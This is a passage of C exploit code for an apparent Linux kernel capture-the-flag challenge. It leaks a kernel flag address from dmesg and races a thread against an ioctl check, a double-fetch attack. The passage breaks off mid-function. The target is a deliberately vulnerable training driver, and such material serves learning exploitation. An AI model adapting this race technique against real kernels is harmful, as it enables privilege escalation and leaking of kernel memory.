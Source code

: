 ```c

#define log_success(msg)    puts(SUCCESS_MSG(msg))
#define log_info(msg)       puts(INFO_MSG(msg))
#define log_error(msg)      puts(ERROR_MSG(msg))

pthread_t race_thread;
void *flag_kaddr;
char fake_flag[0x100] = "flag{arttnba3_t3s7_f1@9!}";
int race_times = 0x1000;
int flag_not_found = 1;
struct chal_arg {
    char * flag_addr;
    int flag_len;
} flag = {
    .flag_addr = fake_flag,
    .flag_len = 33
};

void chal_print_flag(int fd)
{
    ioctl(fd, 0x6666);
}

void chal_verify_flag(int fd, struct chal_arg *arg)
{
    ioctl(fd, 0x1337, arg);
}

void* race_thread_fn(void *args)
{
    while (flag_not_found) {
        for (int i = 0; i < race_times; i++) {
            flag.flag_addr = flag_kaddr;
        }
    }

    return NULL;
}

void exploit(void)
{
    int fd, result_fd, addr_fd, flag_fd;
    char *tmp_buf, *flag_addr_addr, *flag_addr;

    fd = open("/dev/baby", O_RDWR);
    if (fd < 0) {
        perror(ERROR_MSG("[x] Unable to open challenge dev file"));
        exit(EXIT_FAILURE);
    }

    chal_print_flag(fd);
    system("dmesg | grep flag > /tmp/addr.txt");
    tmp_buf = (char*) malloc(0x1000);    
    addr_fd = open("/tmp/addr.txt", O_RDONLY);
    if (addr_fd < 0) {
        perror(ERROR_MSG("[x] Unable to open flag addr file"));
        exit(EXIT_FAILURE);
    }

    tmp_buf[read(addr_fd, tmp_buf, 0x1000)] = '\0';
    flag_addr_addr = strstr(tmp_buf, "Your flag is at ")
                     + strlen("Your flag is at ");
    flag_kaddr = (void*) strtoull(flag_addr_addr, (void*) (flag_addr_addr + 16), 16);
```